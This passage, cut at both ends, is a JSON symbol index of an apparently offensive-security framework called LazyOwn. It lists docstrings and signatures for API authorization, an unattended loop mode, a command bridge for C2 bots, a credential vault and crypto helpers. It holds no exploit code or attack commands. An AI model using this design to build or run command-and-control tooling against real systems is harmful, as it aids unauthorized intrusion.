with the ``modules/lazy_rbac.py`` RBAC system for permission checks.  Contracts --------- * ``ApiKeyStore``: persistence layer (atomic writes, no plaintext storage). * ``require_api_auth``: Flask-route decorator that reads the API key from headers or query params, validates it, resolves the tenant, and enforces the required permissions. * ``create_api_token``: convenience helper that stores the key and returns the one-time plaintext secret.  Usage::  from core.api_authz import ApiAuthzConfig, ApiKeyStore, require_api_auth  _store = ApiKeyStore(config=ApiAuthzConfig())  @app.route(\"/api/secrets\") @require_api_auth(store=_store, permissions={\"api:read\"}) def secrets(): return jsonify(...)", "id": "core/api_authz.py", "kind": "module", "label": "api_authz.py", "language": "py", "sha256": "b19b11c0e663dc4a", "symbol_count": 31, "symbols": [{"doc": "Configuration contract for the API authorization module.\n\nEvery tunable value is defined here; no magic numbers exist elsewhere.", "kind": "class", "line": 54, "name": "ApiAuthzConfig", "signature": "class ApiAuthzConfig"}, {"doc": "Immutable record of a hashed API key bound to a tenant.\n\nThe plaintext secret is never stored after creation. Validation\nuses constant-time comparison of the SHA-256 hash. ``retired_at``\nmarks a rotated key: it stays valid for the configured grace\nwindow so live clients keep working during a rotation, then it is\npruned from the store.", "kind": "class", "line": 75, "name": "ApiKey", "signature": "class ApiKey"}, {"doc": "Return the SHA-256 hex digest of *secret*.", "kind": "function", "line": 137, "name": "_hash_secret", "signature": "def _hash_secret(secret)"}, {"doc": "Constant-time comparison of *secret* against *stored_hash*.", "kind": "function", "line": 142, "name": "_verify_secret", "signature": "def _verify_secret(secret, stored_hash)"}, {"doc": "Return a URL-safe random token string of *nbytes* random bytes.\n\nArgs:\n    nbytes: Number of random bytes to encode. Defaults to\n        :data:`ApiAuthzConfig.default_token_bytes` for backwards\n        compatibility with direct callers.", "kind": "function", "line": 147, "name": "_generate_token_bytes", "signature": "def _generate_token_bytes(nbytes)"}, {"doc": "Persistent store for tenant-scoped API keys.\n\nKeys are hashed with SHA-256 before storage. Atomic writes use\n``.tmp`` + ``os.replace`` to prevent corruption. Rotated keys are\nretired (not deleted) so they stay valid during the configured\ngrace window, then pruned lazily.", "kind": "class", "line": 161, "name": "ApiKeyStore", "signature": "class ApiKeyStore"}, {"doc": "Flask-route decorator that enforces API-key + tenant authorization.\n\nThe API key is extracted from (in priority order):\n1. ``Authorization: Bearer <key>`` header\n2. ``X-API-Key`` header\n3. ``api_key`` query parameter\n\nIf *permissions* is provided the key must hold every listed permission.\nIf *require_tenant* is ``True`` the key must be scoped to a valid\ntenant; when omitted it defaults to\n:data:`ApiAuthzConfig.require_tenant_scope` so the security posture\nlives in one place.\n\nOn failure the decorated route returns a JSON body with ``401`` or\n``403`` — never an HTML error page and never ``abort()``, so the\ncontract holds even in apps with ``TRAP_HTTP_EXCEPTIONS`` enabled.", "kind": "function", "line": 365, "name": "require_api_auth", "signature": "def require_api_auth(store, permissions, require_tenant)"}, {"doc": "Create an API key and return the one-time plaintext token.\n\nArgs:\n    store: The ApiKeyStore instance to persist the key.\n    tenant_id: Tenant to which the key is bound.\n    label: Human-readable label for the key.\n    permissions: Optional set of permission strings.\n    expires_in_days: If set, the key expires after this many days.\n\nReturns:\n    The plaintext API token. Display once and store securely.", "kind": "function", "line": 440, "name": "create_api_token", "signature": "def create_api_token(store, tenant_id, label, permissions, expires_in_days)"}, {"kind": "method", "line": 94, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 107, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 119, "name": "is_expired", "signature": "def is_expired(self)"}, {"kind": "method", "line": 124, "name": "is_retired", "signature": "def is_retired(self)"}, {"kind": "method", "line": 127, "name": "has_permission", "signature": "def has_permission(self, permission)"}, {"kind": "method", "line": 130, "name": "has_all_permissions", "signature": "def has_all_permissions(self, permissions)"}, {"kind": "method", "line": 170, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "The configuration this store was built with.", "kind": "method", "line": 176, "name": "config", "signature": "def config(self)"}, {"kind": "method", "line": 180, "name": "_read", "signature": "def _read(self)"}, {"kind": "method", "line": 191, "name": "_write", "signature": "def _write(self, data)"}, {"doc": "Return the timestamp after which a retired key stops validating.", "kind": "method", "line": 197, "name": "_grace_deadline", "signature": "def _grace_deadline(self, retired_at)"}, {"doc": "Drop retired keys whose grace window has closed.\n\nArgs:\n    records: The record list to filter.\n\nReturns:\n    The record list without expired retired entries.", "kind": "method", "line": 201, "name": "_prune_retired", "signature": "def _prune_retired(self, records)"}, {"doc": "List all active keys, optionally filtered by *tenant_id*.\n\nRetired keys are excluded: the operator sees the live key set.", "kind": "method", "line": 217, "name": "list_keys", "signature": "def list_keys(self, tenant_id)"}, {"doc": "Look up a key record by its SHA-256 hash.", "kind": "method", "line": 229, "name": "find_by_hash", "signature": "def find_by_hash(self, key_hash)"}, {"doc": "Create a new API key and return ``(ApiKey, plaintext_secret)``.\n\nThe plaintext secret is returned only once. The caller must\ndisplay it to the operator immediately.", "kind": "method", "line": 238, "name": "create_key", "signature": "def create_key(self, tenant_id, label, permissions, expires_in_days)"}, {"doc": "Revoke every key with *label* within *tenant_id*.\n\nBoth active and retired records are removed. Returns ``True``\nwhen at least one record was found.", "kind": "method", "line": 273, "name": "revoke_key", "signature": "def revoke_key(self, label, tenant_id)"}, {"doc": "Validate a plaintext API key and return the ApiKey record.\n\nReturns ``None`` if the key is invalid, expired, retired past its\ngrace window, or not found. On successful validation the\n``last_used_at`` timestamp is updated in the store.", "kind": "method", "line": 287, "name": "validate_key", "signature": "def validate_key(self, plaintext)"}, {"doc": "Rotate an existing key by label. Returns the new plaintext.\n\nThe old key keeps working for ``key_rotation_grace_seconds`` so\nclients can switch without an outage. Permissions and expiration\nare copied from the rotated key, never from another record.", "kind": "method", "line": 309, "name": "rotate_key", "signature": "def rotate_key(self, label, tenant_id)"}, {"doc": "Remove the retired record identified by *key_hash*.", "kind": "method", "line": 343, "name": "_prune_record", "signature": "def _prune_record(self, key_hash)"}, {"doc": "Update ``last_used_at`` on the key record identified by *key_hash*.", "kind": "method", "line": 351, "name": "_touch_last_used", "signature": "def _touch_last_used(self, key_hash)"}, {"kind": "function", "line": 393, "name": "_extract_key", "signature": "def _extract_key(request_obj)"}, {"kind": "function", "line": 405, "name": "decorator", "signature": "def decorator(f)"}, {"kind": "function", "line": 407, "name": "decorated", "signature": "def decorated()"}]}, {"doc": "Autonomous-run mode for the loop engine.  While the loop runs, interactive prompts have no operator in front of them: ``input()`` calls from automation verbs must never steal the keyboard from the shell. The context manager flips an environment flag (so shell commands can detect unattended mode) and replaces ``builtins.input`` with a prompt-skipping stub that announces why the default was taken.", "id": "core/autonomous.py", "kind": "module", "label": "autonomous.py", "language": "py", "sha256": "7d83dc643befa17b", "symbol_count": 3, "symbols": [{"doc": "Return True while an autonomous loop run owns the process.", "kind": "function", "line": 21, "name": "is_autonomous", "signature": "def is_autonomous()"}, {"doc": "Suppress interactive prompts for the duration of a loop run.\n\nYields:\n    Control with prompts answered by an empty string and\n    ``LAZYOWN_AUTONOMOUS=1`` exported. Everything is restored on\n    exit, including when an exception unwinds the block.", "kind": "function", "line": 27, "name": "autonomous_mode", "signature": "def autonomous_mode()"}, {"kind": "function", "line": 39, "name": "_guarded_input", "signature": "def _guarded_input(prompt)"}]}, {"doc": "Lightweight command execution bridge between C2 bots and the LazyOwn CLI shell.  Lazy-loads the heavy shell infrastructure only when a command is actually executed, reducing import-time overhead for C2 workers.", "id": "core/command_bridge.py", "kind": "module", "label": "command_bridge.py", "language": "py", "sha256": "6ce0e8c9040e6c6d", "symbol_count": 9, "symbols": [{"doc": "Facade that lazy-loads LazyOwnShell for C2 bot command execution.", "kind": "class", "line": 15, "name": "CommandBridge", "signature": "class CommandBridge"}, {"doc": "Get or create the singleton CommandBridge instance.\n\nReturns:\n    The shared CommandBridge, created on first call.", "kind": "function", "line": 126, "name": "get_bridge", "signature": "def get_bridge()"}, {"kind": "method", "line": 18, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Whether the bridge has been successfully initialized.", "kind": "method", "line": 25, "name": "ready", "signature": "def ready(self)"}, {"doc": "Error message if initialization failed, or None.", "kind": "method", "line": 30, "name": "error", "signature": "def error(self)"}, {"doc": "Lazy-load and initialize the LazyOwnShell singleton.\n\nUses double-checked locking so the import and bootstrap happen at most\nonce across all threads.\n\nReturns:\n    The initialized LazyOwnShell instance.\n\nRaises:\n    RuntimeError: If the shell could not be imported or initialized.", "kind": "method", "line": 34, "name": "_ensure_shell", "signature": "def _ensure_shell(self)"}, {"doc": "Execute a LazyOwn internal command via the shell.\n\nCaptures all stdout output during execution and returns it as a string.\nAll output (banners, status, errors) is included.\n\nArgs:\n    command: The LazyOwn command string to execute.\n\nReturns:\n    The captured stdout output, or an error message on failure.", "kind": "method", "line": 65, "name": "onecmd", "signature": "def onecmd(self, command)"}, {"doc": "Execute a command using the shell's one_cmd method.\n\nUses the shell's built-in output capture (which may include AI\nenhancement depending on shell configuration).\n\nArgs:\n    command: The LazyOwn command string to execute.\n\nReturns:\n    The command output as a string, or an error message on failure.", "kind": "method", "line": 89, "name": "one_cmd", "signature": "def one_cmd(self, command)"}, {"doc": "Alias for one_cmd. Execute any LazyOwn command.\n\nArgs:\n    command: The LazyOwn command string to execute.\n\nReturns:\n    The command output as a string.", "kind": "method", "line": 110, "name": "execute", "signature": "def execute(self, command)"}]}, {"doc": "Configuration loader and Config wrapper.  ``payload.json`` is the single source of runtime configuration for the entire LazyOwn framework. This module exposes:  - ``PAYLOAD_PATH`` constant pointing at ``payload.json`` in the current working directory. - ``load_payload`` / ``save_payload`` for reading and writing it atomically. - ``Config`` — a thin attribute-style wrapper around the payload dictionary. - ``resolve_aes_key`` — the AES key resolver used by ``Config`` so the key is reachable from the shell, the C2, the MCP, and the lazyaddons templating.  Atomic writes go through ``*.tmp`` and ``os.replace`` so a crashed write never leaves the operator with a corrupt payload file.", "id": "core/config.py", "kind": "module", "label": "config.py", "language": "py", "sha256": "baa9db224864cd49", "symbol_count": 17, "symbols": [{"doc": "Override payload values with matching ``LAZYOWN_*`` environment variables.\n\nKeys are mapped to lowercase. Integer and boolean coercion is applied\nbased on the type of the existing payload value.\n\nArgs:\n    payload: The payload dictionary to overlay env vars onto.\n\nReturns:\n    A new dict with env-var overrides applied. The input payload is\n    not mutated.", "kind": "function", "line": 70, "name": "_apply_env_overrides", "signature": "def _apply_env_overrides(payload)"}, {"doc": "Convert a string env-var value to match the type of *existing*.\n\nArgs:\n    raw: The raw string value from the environment variable.\n    existing: The current value in the payload dict (used to infer type).\n\nReturns:\n    The coerced value. Defaults to the raw string when the target\n    type cannot be determined.", "kind": "function", "line": 103, "name": "_coerce_env_value", "signature": "def _coerce_env_value(raw, existing)"}, {"doc": "Return a masked representation when *key* matches a sensitive pattern.\n\nArgs:\n    key: Configuration key name.\n    value: The raw value associated with the key.\n\nReturns:\n    ``\"***\"`` for sensitive keys, otherwise a truncated string\n    representation (max 80 chars).", "kind": "function", "line": 128, "name": "_mask_if_sensitive", "signature": "def _mask_if_sensitive(key, value)"}, {"doc": "Append a JSONL audit entry recording a configuration change.\n\nSensitive values are masked before logging.\n\nArgs:\n    key: The configuration key that changed.\n    old_value: The previous value (``None`` for newly added keys).\n    new_value: The new value.", "kind": "function", "line": 146, "name": "_log_config_change", "signature": "def _log_config_change(key, old_value, new_value)"}, {"doc": "Inspect the payload for non-schema warnings.\n\nChecks for unresolved placeholders and values that look like\nunchanged factory defaults.\n\nArgs:\n    payload: The configuration dictionary.\n\nReturns:\n    List of human-readable warning strings.", "kind": "function", "line": 171, "name": "_collect_validation_warnings", "signature": "def _collect_validation_warnings(payload)"}, {"doc": "Attribute-style wrapper around a configuration dictionary.\n\nBehavior is intentionally preserved from the legacy ``utils.Config``:\nevery key in the underlying dictionary becomes both an instance attribute\nand is accessible via ``config[key]``. Missing keys via ``__getitem__``\nreturn ``None`` rather than raising.\n\nThe instance also exposes ``aes_key`` (resolved bytes) and ``as_params``\n(a snapshot of the underlying dictionary) so the LazyOwn shell can\nsubstitute ``{{aes_key}}`` and other tokens in lazyaddons.", "kind": "class", "line": 195, "name": "Config", "signature": "class Config"}, {"doc": "Migrate legacy misspelled config keys to corrected names.\n\nCopies values from old keys to new, canonical keys without\nremoving the old ones so existing payload files continue to work.", "kind": "function", "line": 238, "name": "_migrate_keys", "signature": "def _migrate_keys(config_dict)"}, {"doc": "Return a 32-byte AES key derived from config, disk, or randomness.\n\nArgs:\n    config_dict: The payload dictionary. Looks for an ``aes_key``\n        entry holding a 64-character hex string.\n    sessions_dir: Directory holding ``key.aes``. Created if missing.\n\nReturns:\n    Exactly 32 bytes suitable for AES-256.\n\nRaises:\n    ValueError: when ``aes_key`` is present but not a 64-char hex.", "kind": "function", "line": 250, "name": "resolve_aes_key", "signature": "def resolve_aes_key(config_dict)"}, {"doc": "Load JSON from *path* and return dict.\n\nDoes **not** apply environment variable overrides. Used internally\nby :func:`load_payload` and for audit comparison in\n:func:`save_payload`.\n\nRaises:\n    FileNotFoundError: if neither the payload nor the example exists.\n    json.JSONDecodeError: if the payload is not valid JSON.", "kind": "function", "line": 293, "name": "_load_raw_payload", "signature": "def _load_raw_payload(path)"}, {"doc": "Load and return the JSON payload at ``path``.\n\nIf the payload does not exist but ``payload.example.json`` does, the\nexample file is copied to ``path`` automatically so a fresh clone never\nleaves the operator without a starting configuration.\n\nEnvironment variable overrides\n(``LAZYOWN_<KEY>``) are applied on top of the file contents.\n\nRaises:\n    FileNotFoundError: if neither the payload nor the example exists.\n    json.JSONDecodeError: if the payload is not valid JSON.", "kind": "function", "line": 316, "name": "load_payload", "signature": "def load_payload(path)"}, {"doc": "Load ``payload.json``, validate against the schema, and return a result dict.\n\nValidation never raises: problems are collected in the ``warnings`` and\n``errors`` lists of the result dict. The payload is returned in the\n``payload`` key as loaded.\n\nArgs:\n    path: Filesystem location of the payload (defaults to\n        ``payload.json`` in the current working directory).\n\nReturns:\n    A dict with keys:\n    - ``payload`` (``dict``): the loaded configuration dictionary.\n    - ``valid`` (``bool``): ``True`` when no errors were found.\n    - ``warnings`` (``list[str]``): advisory issues (schema warnings,\n      unresolved placeholders, default-looking values).\n    - ``errors`` (``list[str]``): blocking issues from schema\n      validation.\n    - ``issues`` (``list[ValidationIssue]``): structured schema issues\n      for programmatic consumers (preserves backward compat).", "kind": "function", "line": 334, "name": "load_and_validate", "signature": "def load_and_validate(path)"}, {"doc": "Atomically write ``payload`` as pretty-printed JSON to ``path``.\n\nUses a sibling ``*.tmp`` file plus ``os.replace`` so a crash mid-write\ncannot leave the operator with a half-written payload.\n\nConfiguration changes are audited to ``sessions/config_changes.jsonl``.", "kind": "function", "line": 385, "name": "save_payload", "signature": "def save_payload(payload, path)"}, {"kind": "method", "line": 208, "name": "__init__", "signature": "def __init__(self, config_dict, sessions_dir)"}, {"kind": "method", "line": 217, "name": "__getattr__", "signature": "def __getattr__(self, name)"}, {"kind": "method", "line": 220, "name": "__getitem__", "signature": "def __getitem__(self, key)"}, {"doc": "Return a shallow copy of the underlying parameter dictionary.\n\nReturns:\n    A dict suitable for ``self.params`` on the cmd2 shell. The\n    ``aes_key`` value is the hex string, matching the format\n    consumed by lazyaddon template substitution.", "kind": "method", "line": 223, "name": "as_params", "signature": "def as_params(self)"}, {"doc": "Return sorted list of keys that were overridden via ``LAZYOWN_*`` env vars.", "kind": "method", "line": 233, "name": "overridden_keys", "signature": "def overridden_keys(self)"}]}, {"doc": "ANSI color constants and console output helpers.  This module is the single source of truth for terminal styling and the ``print_msg`` / ``print_warn`` / ``print_error`` / ``print_succ`` helpers used throughout the framework. ``utils.py`` re-exports these names for backwards compatibility with the historical import path ``from utils import print_msg``.", "id": "core/console.py", "kind": "module", "label": "console.py", "language": "py", "sha256": "135efc72644f5594", "symbol_count": 11, "symbols": [{"doc": "Return ``text`` coerced to ``str`` with surrogate code points stripped.", "kind": "function", "line": 93, "name": "_sanitize", "signature": "def _sanitize(text)"}, {"doc": "Return False when NO_COLOR or ANSI_COLORS_DISABLED is set.\n\nReturns:\n    True when ANSI escapes may be emitted, False otherwise.", "kind": "function", "line": 98, "name": "colors_enabled", "signature": "def colors_enabled()"}, {"doc": "Wrap text in code unless colors are disabled.", "kind": "function", "line": 114, "name": "_paint", "signature": "def _paint(code, text)"}, {"doc": "Build a single log line with standard prefix and sanitized message.\n\nArgs:\n    prefix: Short prefix such as ERROR_PREFIX.\n    message: Payload to sanitize and append.\n    glyph: Optional trailing glyph.\n\nReturns:\n    Formatted single line string.", "kind": "function", "line": 121, "name": "format_line", "signature": "def format_line(prefix, message, glyph)"}, {"doc": "Print a red error message to stdout (never raises on broken pipes).", "kind": "function", "line": 137, "name": "print_error", "signature": "def print_error(error)"}, {"doc": "Print a green informational message to stdout (never raises).", "kind": "function", "line": 143, "name": "print_msg", "signature": "def print_msg(msg)"}, {"doc": "Print a magenta/yellow warning message to stdout (never raises).", "kind": "function", "line": 149, "name": "print_warn", "signature": "def print_warn(warn)"}, {"doc": "Print a bright green success message to stdout (never raises).", "kind": "function", "line": 155, "name": "print_succ", "signature": "def print_succ(msg)"}, {"doc": "Restore blocking mode on stdio fds inherited as non-blocking.\n\nOperator shells are sometimes spawned with ``O_NONBLOCK`` set on\nstdout/stderr (supervisors, pipes, embedded terminals). Any later\n``write`` then fails with ``BlockingIOError`` and kills the session.\nThis restores blocking mode best-effort and never raises.", "kind": "function", "line": 161, "name": "ensure_blocking_stdio", "signature": "def ensure_blocking_stdio()"}, {"doc": "Write ``text`` to stdout, tolerating non-blocking or broken pipes.\n\nOn ``BlockingIOError`` the stdio mode is restored to blocking once\nand the write retried; as a last resort the text goes to stderr and\nthen is dropped. Never raises; returns True when stdout took it.", "kind": "function", "line": 180, "name": "write_stdout", "signature": "def write_stdout(text)"}, {"doc": "Emit one console line; logging must never crash the operator shell.", "kind": "function", "line": 208, "name": "_emit", "signature": "def _emit(line)"}]}, {"doc": "Credential vault — AES-256-GCM encryption for sensitive config values.  Wraps ``core.crypto.AESencrypt``/``AESdecrypt`` to protect secrets stored in ``payload.json`` (``c2_pass``, ``email_password``, ``api_key``, etc.) and provides transparent load/save with encryption.  Design (SOLID): - Single Responsibility: CredentialVault only handles encryption of secrets. - Open/Closed: new sensitive keys added via SENSITIVE_KEYS without code change. - Liskov: any AES-compatible encryptor can replace the default. - Interface Segregation: seal(), unseal(), and seal_payload() are the surface. - Dependency Inversion: depends on bytes-based encrypt/decrypt callables.  Usage: from core.credential_vault import seal_payload, unseal_payload  payload = load_payload() secure = seal_payload(payload) save_payload(secure)  loaded = load_payload() plain = unseal_payload(loaded)", "id": "core/credential_vault.py", "kind": "module", "label": "credential_vault.py", "language": "py", "sha256": "4a15590e81545e04", "symbol_count": 8, "symbols": [{"doc": "Scan payload for unchanged default credential values.\n\nReturns a list of human-readable warning messages. An empty list means\nall sensitive keys have been changed from their factory defaults.", "kind": "function", "line": 63, "name": "check_dangerous_defaults", "signature": "def check_dangerous_defaults(payload)"}, {"doc": "Resolve the AES key from payload, disk, or generate fresh.\n\nArgs:\n    payload: Optional payload dict. Uses ``payload.json`` on disk if None.\n\nReturns:\n    32-byte AES key.", "kind": "function", "line": 79, "name": "_get_aes_key", "signature": "def _get_aes_key(payload)"}, {"doc": "Encrypt a single credential value.\n\nArgs:\n    plaintext: Sensitive value to encrypt.\n    key: AES key (auto-resolved if None).\n\nReturns:\n    Base64-encoded sealed value with vault marker prefix.", "kind": "function", "line": 93, "name": "seal_value", "signature": "def seal_value(plaintext, key)"}, {"doc": "Decrypt a sealed credential value.\n\nReturns the value unchanged if it is not a sealed vault value (plaintext\nbackward compat). Returns empty string for empty input.\n\nArgs:\n    sealed: Possibly encrypted credential string.\n    key: AES key (auto-resolved if None).\n\nReturns:\n    Decrypted plaintext string.", "kind": "function", "line": 112, "name": "unseal_value", "signature": "def unseal_value(sealed, key)"}, {"doc": "Return a copy of ``payload`` with all sensitive values encrypted.\n\nNon-sensitive keys and the key ``aes_key`` itself are left untouched.\nThe returned dict is safe to write to ``payload.json``.\n\nArgs:\n    payload: Configuration dict to seal.\n    key: AES key (auto-resolved if None).\n\nReturns:\n    Shallow copy with sensitive fields encrypted.", "kind": "function", "line": 141, "name": "seal_payload", "signature": "def seal_payload(payload, key)"}, {"doc": "Return a copy of ``payload`` with all sealed values decrypted.\n\nValues that are not sealed are passed through unchanged.\n\nArgs:\n    payload: Configuration dict possibly containing sealed values.\n    key: AES key (auto-resolved if None).\n\nReturns:\n    Shallow copy with sensitive fields decrypted in-place.", "kind": "function", "line": 164, "name": "unseal_payload", "signature": "def unseal_payload(payload, key)"}, {"doc": "Generate a new AES key, re-encrypt all sealed values under it.\n\nFirst decrypts with ``current_key``, then encrypts with a fresh key.\nThe fresh key is written to ``sessions/key.aes`` with mode 0o600.\n\nArgs:\n    payload: Configuration dict (can be sealed or plain).\n    current_key: Current AES key (auto-resolved if None).\n\nReturns:\n    ``(new_payload, new_key_bytes)`` tuple. ``new_payload``\n    is sealed with the fresh key and ready to save.", "kind": "function", "line": 186, "name": "rotate_aes_key", "signature": "def rotate_aes_key(payload, current_key)"}, {"doc": "Generate cryptographically random default values for sensitive keys.\n\nReturns a dict mapping each sensitive key to a 32-char hex random value.\nUse this to bootstrap a new ``payload.json`` with secure defaults.", "kind": "function", "line": 215, "name": "generate_secure_defaults", "signature": "def generate_secure_defaults()"}]}, {"doc": "Symmetric primitives used by the framework.  XOR (legacy), AES-256-GCM, key generation, and file-dropping utilities extracted from ``utils.py``.", "id": "core/crypto.py", "kind": "module", "label": "crypto.py", "language": "py", "sha256": "b105d5e37793e4fe", "symbol_count": 7, "symbols": [{"doc": "Generate a cryptographically random salt.\n\nArgs:\n    length: Salt length in bytes.\n\nReturns:\n    Random bytes suitable for PBKDF2 key derivation.", "kind": "function", "line": 24, "name": "generate_salt", "signature": "def generate_salt(length)"}, {"doc": "Derive a Fernet-compatible key from a password using PBKDF2HMAC.\n\nUses SHA-256 with 100000 iterations over ``password`` + ``salt`` and\nreturns a URL-safe Base64 key accepted by ``cryptography.Fernet``.\n\nArgs:\n    password: The user-provided password.\n    salt: Salt bytes (see ``generate_salt``). Callers persisting\n        encrypted data must store the salt alongside it.\n\nReturns:\n    Base64-encoded Fernet key bytes.\n\nRaises:\n    ValueError: if ``password`` is empty.", "kind": "function", "line": 36, "name": "derive_key", "signature": "def derive_key(password, salt)"}, {"doc": "Return ``bytearray`` produced by XOR-ing each byte of ``data`` with ``key``.\n\nXOR is symmetric, so the same call encrypts and decrypts. The key is\ncycled byte-by-byte over the data. ``key`` must be a non-empty string.\n\nRaises:\n    ValueError: if ``key`` is empty.", "kind": "function", "line": 67, "name": "xor_encrypt_decrypt", "signature": "def xor_encrypt_decrypt(data, key)"}, {"doc": "Generate a random XOR key of the given length as a hex string.\n\nArgs:\n    length: Length of the XOR key in bytes.\n\nReturns:\n    Hex-encoded key string.", "kind": "function", "line": 83, "name": "generate_xor_key", "signature": "def generate_xor_key(length)"}, {"doc": "Encrypt ``plaintext`` with AES-256-GCM using a random nonce.\n\nOutput format is ``nonce (12 bytes) || ciphertext || tag (16 bytes)``\nso that ``AESdecrypt`` can extract all three components.\n\nArgs:\n    plaintext: Data to encrypt.\n    key: Raw key material (SHA-256 hashed before use).\n\nReturns:\n    ``(ciphertext, key)`` tuple where ``ciphertext`` includes the\n    nonce and authentication tag prepended/appended.", "kind": "function", "line": 98, "name": "AESencrypt", "signature": "def AESencrypt(plaintext, key)"}, {"doc": "Decrypt data produced by ``AESencrypt``.\n\nExpects ``nonce (12 bytes) || ciphertext || tag (16 bytes)``.\n\nArgs:\n    data: Encrypted payload with embedded nonce and tag.\n    key: The same key used during encryption.\n\nReturns:\n    Decrypted plaintext.\n\nRaises:\n    ValueError: If the authentication tag does not verify (data\n        tampered or wrong key).", "kind": "function", "line": 123, "name": "AESdecrypt", "signature": "def AESdecrypt(data, key)"}, {"doc": "Write AES key and ciphertext to ``sessions/cipher.bin`` and ``sessions/key.bin``.\n\nArgs:\n    key: AES key bytes.\n    ciphertext: Encrypted payload bytes (includes nonce + tag).", "kind": "function", "line": 154, "name": "dropFile", "signature": "def dropFile(key, ciphertext)"}]}, {"doc": "Build-time default constants loaded from ``config/defaults.toml``.  Single source of truth for fallback ports, wordlists and well-known paths. Commands read live engagement values from ``payload.json`` first and call these helpers only when the key is unset, so the TOML file is never rewritten at runtime and per-engagement ``assign`` values always win.", "id": "core/defaults.py", "kind": "module", "label": "defaults.py", "language": "py", "sha256": "6c39d67c687815ab", "symbol_count": 8, "symbols": [{"doc": "Load and cache the defaults document.\n\nArgs:\n    path: TOML file to load. Defaults to ``config/defaults.toml``.\n\nReturns:\n    Parsed TOML mapping with ``ports``, ``wordlists`` and\n    ``paths`` sections.\n\nRaises:\n    FileNotFoundError: When the TOML file does not exist.", "kind": "function", "line": 21, "name": "load_defaults", "signature": "def load_defaults(path)"}, {"doc": "Drop cached documents (tests only).", "kind": "function", "line": 44, "name": "clear_cache", "signature": "def clear_cache()"}, {"doc": "Return ``defaults[section][key]`` or ``default`` when absent.\n\nArgs:\n    section: TOML section (``ports``, ``wordlists``, ``paths``).\n    key: Key inside the section.\n    default: Fallback when section or key is missing.\n\nReturns:\n    The configured value or ``default``.", "kind": "function", "line": 49, "name": "get", "signature": "def get(section, key, default)"}, {"doc": "Return the fallback listener port as an int.\n\nReturns:\n    ``ports.default_lport`` (1337 unless the TOML changes it).", "kind": "function", "line": 63, "name": "default_lport", "signature": "def default_lport()"}, {"doc": "Return the fallback remote port as an int.\n\nReturns:\n    ``ports.default_rport`` (443 unless the TOML changes it).", "kind": "function", "line": 72, "name": "default_rport", "signature": "def default_rport()"}, {"doc": "Return the default wordlist path.\n\nReturns:\n    ``wordlists.rockyou`` unless the TOML changes it.", "kind": "function", "line": 81, "name": "rockyou_wordlist", "signature": "def rockyou_wordlist()"}, {"doc": "Return the ordered wordlist fallback candidates.\n\nReturns:\n    ``wordlists.fallbacks`` as a list of paths.", "kind": "function", "line": 90, "name": "common_wordlists", "signature": "def common_wordlists()"}, {"doc": "Return the sessions directory path.\n\nReturns:\n    ``paths.sessions_dir`` (``sessions`` unless changed).", "kind": "function", "line": 100, "name": "sessions_dir", "signature": "def sessions_dir()"}]}, {"doc": "Graceful optional-import handling for heavy third-party dependencies.  Historically ``utils.py`` imported every third-party library at module top level. A single missing package (for example ``pycryptodome`` or ``python-libnmap``) raised :class:`ImportError` before any code ran, which crashed the whole framework -- CLI, C2 and MCP server alike -- with an opaque traceback and no guidance on how to recover.  This module makes optional dependencies fail late and loudly instead of early and silently:  - :func:`optional_import` and :func:`optional_attr` return the real module or attribute when the package is installed (identical runtime behaviour), and a :class:`_DeferredImport` proxy when it is missing. The proxy raises :class:`MissingDependencyError` only when the feature is actually used, with the exact ``pip install`` command needed to fix it. - :data:`OPTIONAL_PYTHON_DEPENDENCIES` is the single source of truth for the install hint of every dependency bound lazily by ``utils.py``.  Scope: this module owns *runtime resilience* for lazily-imported Python packages only. The operator-facing preflight report (Python version, virtual environment, external binaries, certificates, SecLists) lives in :mod:`cli.doctor`, which is rendered with ``rich`` and reachable through the ``doctor`` CLI command. This module deliberately depends only on the Python standard library so that ``python3 -m core.dependencies`` keeps working as a last-resort diagnostic even when ``rich`` or ``cmd2`` themselves fail to import.", "id": "core/dependencies.py", "kind": "module", "label": "dependencies.py", "language": "py", "sha256": "f9e6f0569e999580", "symbol_count": 23, "symbols": [{"doc": "Raised when an optional dependency is used but is not installed.\n\nThe error message includes the import name, the owning feature and the\nexact ``pip install`` command that resolves it, so the operator never has\nto map a bare ``ModuleNotFoundError`` back to a package name by hand.", "kind": "class", "line": 37, "name": "MissingDependencyError", "signature": "class MissingDependencyError(ImportError)"}, {"doc": "Declarative metadata for a single optional Python dependency.\n\nAttributes:\n    import_name: The dotted import path consumed by the framework.\n    pip_package: The PyPI distribution that provides ``import_name``.\n    feature: Human-readable capability that the dependency unlocks.", "kind": "class", "line": 66, "name": "DependencySpec", "signature": "class DependencySpec"}, {"doc": "Stand-in for a missing optional dependency.\n\nThe proxy is returned by :func:`optional_import` and :func:`optional_attr`\nwhen the underlying package cannot be imported. Binding the proxy to a name\nis safe; any attempt to actually use it (attribute access, call, iteration,\nsubscription, length) raises :class:`MissingDependencyError` with\ninstallation guidance. This defers the failure from import time to first\nuse, so the framework still boots. The proxy is falsy so callers can\nfeature-detect with a plain ``if optional_dependency:`` guard.", "kind": "class", "line": 101, "name": "_DeferredImport", "signature": "class _DeferredImport"}, {"doc": "Resolve the canonical spec for ``import_name``.\n\nLooks the import name up in :data:`OPTIONAL_PYTHON_DEPENDENCIES` first so\nmetadata lives in exactly one place. Falls back to caller-supplied values,\nthen to sensible defaults, so an undeclared dependency still degrades\ngracefully.\n\nArgs:\n    import_name: The dotted import path being resolved.\n    pip_package: Optional override for the PyPI distribution name.\n    feature: Optional override for the capability description.\n\nReturns:\n    A :class:`DependencySpec` describing the dependency.", "kind": "function", "line": 157, "name": "_spec_for", "signature": "def _spec_for(import_name, pip_package, feature)"}, {"doc": "Import an optional module, returning a deferred proxy when absent.\n\nArgs:\n    import_name: The dotted module path to import.\n    pip_package: Override for the PyPI distribution name. Ignored when\n        ``import_name`` is already declared in the registry.\n    feature: Override for the capability description. Ignored when\n        ``import_name`` is already declared in the registry.\n\nReturns:\n    The imported module when available, otherwise a :class:`_DeferredImport`\n    proxy that raises :class:`MissingDependencyError` on first use.", "kind": "function", "line": 183, "name": "optional_import", "signature": "def optional_import(import_name)"}, {"doc": "Import an attribute from an optional module, deferring failure.\n\nThe ``attr`` may be a plain attribute (class, function, constant) or a\nsubmodule (for example ``AES`` in ``Crypto.Cipher``). When attribute\naccess fails, the function transparently retries by 